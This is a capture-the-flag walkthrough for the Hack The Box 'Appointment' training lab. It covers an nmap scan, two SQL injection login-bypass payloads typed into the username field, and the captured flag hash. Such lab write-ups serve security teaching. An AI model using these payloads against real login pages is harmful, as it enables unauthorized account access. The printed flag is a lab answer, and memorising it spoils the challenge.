

:::caution[Machine Information]
- **Platform:** HTB
- **Lab:** Starting Point
- **OS:** Linux
- **Difficulty:** Very Easy
- **IP:** `10.129.11.227`
:::

---

# Step 0: Getting Started

```bash
mkdir -p HTB/LAB/APPOINTMENT && cd HTB/LAB/APPOINTMENT
IP=10.129.11.227 && ping -c 2 $IP
```
If you don't understand what I'm doing here;

- [GO! `Step 0: Getting Started` section. -> Meow](https://www.cybalp.me/ctf/writeups/htb-meow/#step-0-getting-started)
- [GO! `Step 0: Getting Started` section. -> Fawn](https://www.cybalp.me/ctf/writeups/htb-fawn/#step-0-getting-started)

Check out the headings in the links.

---

# Step 1: Recon



```bash
nmap -sC -sV $IP
```
Okey. Expected key point: **80/tcp (HTTP)** is open.

Open target in browser -> http://10.129.11.227/

We have a simple login form. This usually means SQL injection test.

---

# Step 2: Solution

## Login Bypass (SQLi)

Try this payload in the **username** field:

```sql
admin' OR '1'='1'-- -
```

Password can be anything.


Alternative payload:

```sql
' OR 1=1-- -
```

When query is not sanitized, authentication condition becomes always true and login is bypassed.

---

# and Flag and finish

```
e3d0796d002a446c0e622226f42e9672
```

Now ask yourself these questions: How can you tell if there’s an SQL vulnerability on a login page? Do we have to type these commands one by one? What’s the easy way?

# OK! 

That's all for now.